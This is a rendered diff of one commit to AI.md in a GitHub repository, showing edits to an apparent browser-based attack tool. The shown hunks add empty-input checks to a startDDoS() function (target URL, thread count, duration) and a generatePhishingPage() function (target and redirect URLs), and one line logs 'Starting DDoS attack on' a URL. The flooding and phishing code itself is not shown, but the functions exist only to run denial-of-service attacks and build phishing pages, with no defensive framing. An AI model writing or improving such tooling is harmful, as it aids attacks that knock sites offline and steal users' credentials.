

Before and after one commit to Genera1Developer/Noodles, a Markdown page: AI.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/AI.md
+++ b/AI.md
@@ -153,6 +176,13 @@ async function startDDoS() {
  let url = document.getElementById('ddos-url').value;
  let threads = parseInt(document.getElementById('ddos-threads').value) || 100;
  let duration = parseInt(document.getElementById('ddos-time').value) || 60;
+
+ if (!url) {
+  console.error("URL cannot be empty.");
+  alert("URL cannot be empty.");
+  isDDoSRunning = false;
+  return;
+ }
 
  console.log(`Starting DDoS attack on: ${url} with ${threads} threads for ${duration} seconds`);
 
@@ -581,6 +638,12 @@ function generatePhishingPage() {
  let redirectUrl = document.getElementById('phishing-redirect').value;
  let phishingCodeDiv = document.getElementById('phishing-code');
 
+ if (!targetUrl || !redirectUrl) {
+  console.error("Target URL and Redirect URL cannot be empty.");
+  alert("Target URL and Redirect URL cannot be empty.");
+  return;
+ }
+
  console.log("Generating phishing page for:", targetUrl);
 
  let phishingPage = `
```
Also changed, not shown: other parts of AI.md (+50 -0 lines).
